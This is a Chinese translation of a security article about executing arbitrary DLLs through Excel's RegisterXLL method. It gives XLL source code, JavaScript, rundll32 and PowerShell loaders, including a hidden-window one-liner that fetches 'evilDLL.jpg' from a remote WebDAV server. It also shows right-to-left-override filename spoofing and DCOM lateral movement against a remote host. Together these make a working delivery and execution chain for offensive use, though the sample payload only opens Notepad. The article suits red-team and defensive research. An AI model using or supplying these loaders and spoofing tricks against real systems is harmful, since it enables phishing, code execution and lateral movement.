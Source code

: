 > 原文链接: https://www.anquanke.com//post/id/86484 


# 【技术分享】如何通过Excel.Application RegisterXLL()方法执行DLL


                                阅读量   
                                **110075**
                            
                        |
                        
                                                                                                                                    ![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)
                                                                                            



##### 译文声明

本文是翻译文章，文章原作者，文章来源：gist.github.com/ryhanson
                                <br>原文地址：[https://gist.github.com/ryhanson/227229866af52e2d963cf941af135a52](https://gist.github.com/ryhanson/227229866af52e2d963cf941af135a52)

译文仅供参考，具体内容表达以及含义原文为准



[![](https://p5.ssl.qhimg.com/t019f3a22c881be45c0.png)](https://p5.ssl.qhimg.com/t019f3a22c881be45c0.png)

译者：[興趣使然的小胃](http://bobao.360.cn/member/contribute?uid=2819002922)

预估稿费：70RMB

投稿方式：发送邮件至linwei#360.cn，或登陆网页版在线投稿

<br>

在Excel中，我们可以通过初始化Excel.Application COM对象，将某个DLL传递给RegisterXLL方法，最终实现通过Excel加载并执行该DLL的目的。DLL所在的路径不一定是本地路径，也可以是指向远程WebDAV服务器的UNC路径。

我们通过WebDAV渠道下载DLL文件时，需要注意的是，DLL仍会被写到本地磁盘中，但所下载的文件与载入到进程中的文件并不一致。这种情况适用于所有通过WebDAV下载的文件，下载的文件在本地磁盘中的具体路径为：

```
C:WindowsServiceProfilesLocalServiceAppDataLocalTempTfsStoreTfs_DAV
```

在使用RegisterXLL函数时，我们需要提供一个XLL加载项，XLL加载项实际上就是一个带有特定导出函数的特定DLL。关于XLL的更多信息可以参考[MSDN](https://msdn.microsoft.com/en-us/library/office/bb687911.aspx)上的相关资料。

我们也可以双击.xll文件来执行XLL，但此时会出现一个安全警告。[@rxwx](https://github.com/rxwx)详细[描述](https://github.com/rxwx)了这种使用场景，同时给出了一个简单的XLL样例。

对于Office而言，非常有趣的一点是它在处理某些文件扩展名时会进行文件格式嗅探，这些文件包括.xls、.xlk以及.doc（可能还涉及其他扩展名）。这意味着我们可以将.xll修改为.xls或者.xlk，然后Office还是可以打开这种文件。然而，这种情况下，我们依然会触发前面提到过的加载项警告信息，同时还有另一个警告信息，提示文件格式与文件扩展名不匹配。

由于加载项警告信息中会显示文件名的完全路径，因此我们可以使某些unicode字符来掩盖.xll扩展名。我最喜欢使用的一种字符就是“[从右向左覆盖字符（Right-to-Left Override Character）](http://www.fileformat.info/info/unicode/char/202e/index.htm)”。使用这种字符，我们就能任意伪造Excel文件的扩展名。比如，文件名“Footbau202Eslx.xll”会显示为“Footballx.xls”，因为从该unicode字符之后的所有字符顺序都会左右颠倒。

如下代码为某个DLL的示例代码，该DLL有一个xlAutoOpen导出函数，函数内部有一条执行语句，这种写法就可以构造出一个XLL文件。与其他DLL文件类似，我们可以在DLL_PROCESS_ATTACH分支中触发DLL的执行。



```
// Compile with: cl.exe notepadXLL.c /LD /o notepad.xll
#include &lt;Windows.h&gt;
__declspec(dllexport) void __cdecl xlAutoOpen(void); 
void __cdecl xlAutoOpen() `{`
    // Triggers when Excel opens
    WinExec("cmd.exe /c notepad.exe", 1);
`}`
BOOL APIENTRY DllMain( HMODULE hModule,
                       DWORD  ul_reason_for_call,
                       LPVOID lpReserved
 )
`{`
switch (ul_reason_for_call)
`{`
case DLL_PROCESS_ATTACH:
case DLL_THREAD_ATTACH:
case DLL_THREAD_DETACH:
case DLL_PROCESS_DETACH:
break;
`}`
return TRUE;
`}`
```

我们可以通过多种方法执行这个XLL文件。

使用Javascript来执行：



```
// Create Instace of Excel.Application COM object
var excel = new ActiveXObject("Excel.Application");
// Pass in path to the DLL (can use any extension)
excel.RegisterXLL("C:\Users\Bob\AppData\Local\Temp\evilDLL.xyz");
// Delivered via WebDAV
excel.RegisterXLL("\\webdavserver\files\evilDLL.jpg");
```

在一行代码中，使用Rundll32.exe以及mshtml.dll来执行：

```
rundll32.exe javascript:"..mshtml.dll,RunHTMLApplication ";x=new%20ActiveXObject('Excel.Application');x.RegisterXLL('\\webdavserver\files\evilDLL.jpg');this.close();
```

使用Powershell来执行：



```
# Create Instace of Excel.Application COM object
$excel = [activator]::CreateInstance([type]::GetTypeFromProgID("Excel.Application"))
# Pass in path to the DLL (can use any extension)
$excel.RegisterXLL("C:UsersBobDownloadsevilDLL.txt")
# Delivered via WebDAV
$excel.RegisterXLL("\webdavserverfilesevilDLL.jpg");
# One liner with WebDAV: 
powershell -w hidden -c "IEX ((New-Object -ComObject Excel.Application).RegisterXLL('\webdavserverfilesevilDLL.jpg'))"
```

[@rxwx](https://github.com/rxwx)发现，如果目标环境支持[DCOM](https://twitter.com/buffaloverflow/status/888427071327916032)，那么我们也可以使用这种方法实现横向渗透，如下所示：



```
$Com = [Type]::GetTypeFromProgID("Excel.Application","192.168.1.111")
$Obj = [System.Activator]::CreateInstance($Com)
# Detect Office bitness so proper DLL can be used
$isx64 = [boolean]$obj.Application.ProductCode[21]
# Load DLL from WebDAV
$obj.Application.RegisterXLL("\webdavserveraddinscalcx64.dll")
```

[@rvrsh3ll](https://github.com/rxwx)在[Invoke-DCOM.ps1](https://github.com/rvrsh3ll/Misc-Powershell-Scripts/blob/master/Invoke-DCOM.ps1)中引入了这种DCOM技术（感谢[@rxwx](https://github.com/rxwx)的研究成果）。

此外，[@MooKitty](https://github.com/MoooKitty)同样给出了XLL的PoC代码。
